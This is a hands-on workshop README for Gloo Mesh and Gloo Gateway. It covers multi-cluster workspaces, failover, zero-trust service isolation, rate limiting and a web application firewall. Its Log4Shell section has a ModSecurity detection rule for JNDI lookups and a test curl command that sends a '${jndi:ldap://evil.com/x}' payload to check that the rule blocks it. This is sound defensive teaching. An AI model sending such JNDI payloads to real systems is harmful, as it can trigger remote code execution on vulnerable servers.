







## Prerequisites
Three clusters:
- **mgmt**: Hosts the Gloo Mesh Management plane
- **cluster1**: Hosts workloads
- **cluster2**: Hosts workloads

Workload clusters have Istio and the Gloo Mesh agent installed, and those are connected to the Gloo Mesh management plane. This should be the starting state:



Sample services are found in this [repo](https://github.com/rinormaloku/happy-istio/tree/main/fake-service), which is a fork of fake-service [nicholasjackson/fake-service](https://github.com/nicholasjackson/fake-service)

### Running the services
We will run the following services

```bash
## Deploy frontend service
kubectl ctx cluster1
kubectl create ns frontend
kubectl label namespace frontend istio.io/rev=1-12
kubectl -n frontend apply -f ./frontend-cluster1.yaml

# verfiy frontend running in cluster 1
kubectl get pods -n frontend

## Deploy the backend service
kubectl create ns backend
kubectl label namespace backend istio.io/rev=1-12
kubectl -n backend apply -f ./backend-cluster2.yaml

# verfiy backend running in cluster 1
kubectl get pods -n backend
```



## Request a workspace for your team

Ping an administrator to create a workspace for your team that connects workloads in the following namespaces:
- **cluster1:** frontend and backend
- **cluster2:** backend only

```bash
kubectl ctx mgmt
kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: Workspace
metadata:
  labels:
    allow_ingress: "true"
  name: the-app
  namespace: gloo-mesh
spec:
  workloadClusters:
  - name: cluster1
    namespaces:
    - name: frontend
    - name: backend
  - name: cluster2
    namespaces:
    - name: backend
EOF
```

Configure the workspace settings to expose its configuration to the gateways workspace.
```bash
kubectl ctx cluster1

kubectl apply -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: frontend
  namespace: frontend
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: frontend
    - kind: ALL
      labels:
        expose: "true"
EOF
```


### Expose the frontend service through the gateway
Create a VirtualGateway for exposing the service
```bash
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualGateway
metadata:
  name: north-south-gw
  namespace: istio-gateways
spec:
  workloads:
    - selector:
        labels:
          istio: ingressgateway
        cluster: cluster1
  listeners: 
    - http: {}
      port:
        number: 80
      allowedRouteTables:
        - host: '*'
EOF
```

And routing the admitted traffic

```bash
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: RouteTable
metadata:
  name: the-app
  namespace: frontend
  labels:
    expose: "true"
spec:
  hosts:
    - '*'
  virtualGateways:
    - name: north-south-gw
      namespace: istio-gateways
      cluster: cluster1
  workloadSelectors: []
  http:
    - name: frontend
      labels:
        ratelimited: "true"
        waf: "true"
      matchers:
      - uri:
          prefix: /
      forwardTo:
        destinations:
          - ref:
              name: frontend
              namespace: frontend
            port:
              number: 8080
EOF
```

If you try now to access the client it will fail, because the bookinfo.global service doesn't exist. `backend.backed.svc.cluster.local` does exist, but that one is not being used by the frontend service.

## VirtualDestinations 
**It doesn't matter where you run the workloads!** As long as you run them within the mesh.

Let's create a VirtualDestination that can target workloads anywhere.

```bash
kubectl apply -f - <<EOF
apiVersion: networking.gloo.solo.io/v2
kind: VirtualDestination
metadata:
  name: backend
  namespace: frontend
  labels:
    failover: "true"
spec:
  hosts:
  - backend.global
  services:
  - namespace: backend
    name: backend
  ports:
  - number: 80
    protocol: HTTP
    targetPort:
      number: 8080
EOF
```

Now if you open the page you won't see errors. The backend service is reachable with the hostname `backend.global`. 



But why not just use  `backend.backed.svc.cluster.local` ?

Because now we have the freedom to move the workload anywhere!

## Multi cluster traffic
First let's run the `backend` workload in the second cluster too.
```bash
kubectl ctx cluster2
kubectl create ns backend
kubectl label namespace backend istio.io/rev=1-12  
kubectl -n backend apply -f ./backend-cluster2.yaml
```

Test the app and verify that traffic is load balanced between the two instances.

Implementing multi cluster traffic was easy! But let's use it only when we have to.

## Failover policy

Let's configure a failover policy so that only when the local instance fails is traffic sent to the remote cluster.

```bash
kctx cluster1
kubectl apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: FailoverPolicy
metadata:
  name: failover
  namespace: frontend
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    localityMappings: []
EOF
```

Next create an outlier policy as well, so that we identify when a workload is not healthy and reject it.

```bash
kubectl apply -f - <<EOF
apiVersion: resilience.policy.gloo.solo.io/v2
kind: OutlierDetectionPolicy
metadata:
  name: outlier-detection
  namespace: frontend
spec:
  applyToDestinations:
  - kind: VIRTUAL_DESTINATION
    selector:
      labels:
        failover: "true"
  config:
    consecutiveErrors: 2
    interval: 5s
    baseEjectionTime: 30s
    maxEjectionPercent: 100
EOF
```

Check if the application is always routing to the local instance!

Now let's cause backend in the first cluster to fail
```bash
kubectl -n backend set env deploy backend ERROR_RATE='1'
kubectl get pods -n backend
```

Check and verify that traffic has spilled over to the second cluster.



Reset the environment:
```bash
kubectl -n backend set env deploy backend ERROR_RATE='0'
```

## Zero trust

In Gloo Mesh traffic can be sent to all workloads, including clear-text traffic. 

```bash
POD_NAME=$(kubectl -n frontend get pods -l app=frontend -o jsonpath={.items..metadata.name} | cut -d ' ' -f1)

kubectl -n frontend debug -q -i $POD_NAME --image=nicolaka/netshoot -- \
  tcpdump -l --immediate-mode -vv -s 0 '(((ip[2:2] - ((ip[0]&0xf)<<2)) - ((tcp[12]&0xf0)>>2)) != 0)'
```

Let's create a legacy workload that is not in the mesh

```bash
kubectl create ns client

kubectl run -i -n client --rm --restart=Never dummy \
--image=curlimages/curl --command -- \
sh -c 'curl -s http://frontend.frontend.svc.cluster.local:8080'
```

You will see that traffic is not encrypted. And can be read.

```bash
kubectl apply -f- <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: WorkspaceSettings
metadata:
  name: frontend
  namespace: frontend
spec:
  importFrom:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
  exportTo:
  - workspaces:
    - name: gateways
    resources:
    - kind: SERVICE
      labels:
        app: frontend
    - kind: ALL
      labels:
        expose: "true"
  options:        
    serviceIsolation:
      enabled: true
      trimProxyConfig: true
EOF
```

Now if you try again the traffic is encrypted. Additionally, even workloads within the mesh, that are not exporting to this workload, and more importantly, this workspace doesn't import from cannot reach the workloads.

```bash
kubectl label namespace client istio.io/rev=1-12  

kubectl run -i -n client --rm --restart=Never dummy \
--image=curlimages/curl --command -- \
sh -c 'curl -s http://frontend.frontend.svc.cluster.local:8080'
```

The access is denied. 

```bash
## Policies were created
kubectl get authorizationpolicy -A
```


# Gloo Gateway

## Rate limiting

```bash
kubectl apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitClientConfig
metadata:
  name: frontend-clc
  namespace: frontend
spec:
  raw:
    rateLimits:
    - setActions:
      - requestHeaders:
          descriptorKey: organization
          headerName: X-Organization
EOF

kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerConfig
metadata:
  name: frontend-rl
  namespace: frontend
spec:
  destinationServers:
  - ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
  raw:
    setDescriptors:
      - simpleDescriptors:
          - key: organization
            value: solo.io
        rateLimit:
          requestsPerUnit: 3
          unit: MINUTE
EOF

kubectl apply -f - <<EOF
apiVersion: admin.gloo.solo.io/v2
kind: RateLimitServerSettings
metadata:
  name: rate-limit-server
  namespace: frontend
spec:
  destinationServer:
    ref:
      cluster: cluster1
      name: rate-limiter
      namespace: gloo-mesh-addons
    port:
      name: grpc
EOF


kubectl apply -f - <<EOF
apiVersion: trafficcontrol.policy.gloo.solo.io/v2
kind: RateLimitPolicy
metadata:
  name: frontend-rl-policy
  namespace: frontend
spec:
  applyToRoutes:
  - route:
      labels:
        ratelimited: "true"
  config:
    serverSettings:
      name: rate-limit-server
      namespace: frontend
      cluster: cluster1
    ratelimitClientConfig:
      name: frontend-clc
      namespace: frontend
      cluster: cluster1
    ratelimitServerConfig:
      name: frontend-rl
      namespace: frontend
      cluster: cluster1
    phase:
      postAuthz:
        priority: 3
EOF
```

Now, you will get rate limited if you make four requests for this organization within a minute.
```bash
curl -v http://172.20.1.1/ -H "X-Organization: solo.io"
```

**NOTE:** Rate limiting SHOULD NOT be done on simple HTTP headers, but on authenticated data such as JWT claims. An example that shows a good implementation is shown in our lengthier workshop (https://github.com/solo-io/workshops/blob/master/gloo-mesh-2-0/README.md#lab-20---apply-rate-limiting-to-the-gateway-)

## Web Application Firewall

Gloo Gateway comes with a powerfull web application firewall that supports the popular [ModSecurity](https://www.github.com/SpiderLabs/ModSecurity) 3.0.3 ruleset. There are many rule sets publically available, such as the [OWASP Core Rule Set](https://github.com/coreruleset/coreruleset).

An example of how using Gloo Mesh we'd easily mitigate the recent Log4Shell vulnerability ([CVE-2021-44228](https://nvd.nist.gov/vuln/detail/CVE-2021-44228)), which for many enterprises was a major ordeal that took weeks and months of updating all services.

```bash

kubectl apply -f - <<EOF
apiVersion: security.policy.gloo.solo.io/v2
kind: WAFPolicy
metadata:
  name: log4shell
  namespace: frontend
spec:
  applyToRoutes:
  - route:
      labels:
        waf: "true"
  config:
    disableCoreRuleSet: true
    customInterventionMessage: 'Log4Shell malicious payload'
    customRuleSets:
    - ruleStr: |
        SecRuleEngine On
        SecRequestBodyAccess On
        SecRule REQUEST_LINE|ARGS|ARGS_NAMES|REQUEST_COOKIES|REQUEST_COOKIES_NAMES|REQUEST_BODY|REQUEST_HEADERS|XML:/*|XML://@*  
          "@rx \${jndi:(?:ldaps?|iiop|dns|rmi)://" 
          "id:1000,phase:2,deny,status:403,log,msg:'Potential Remote Command Execution: Log4j CVE-2021-44228'"
EOF
```

Requests that try to use those headers will be rejected.
```bash
curl -H "User-Agent: \${jndi:ldap://evil.com/x}" http://172.20.1.1
```




### Additional resources
* Solo.io workshops (https://www.solo.io/events/upcoming/) on Istio, Cilium, Gloo Mesh, Gloo Gateway, and so on.
* Authentication and Authorization capabilities (https://docs.solo.io/gloo-edge/latest/guides/security/auth/)
* GraphQL Support (https://docs.solo.io/gloo-edge/latest/guides/graphql/)
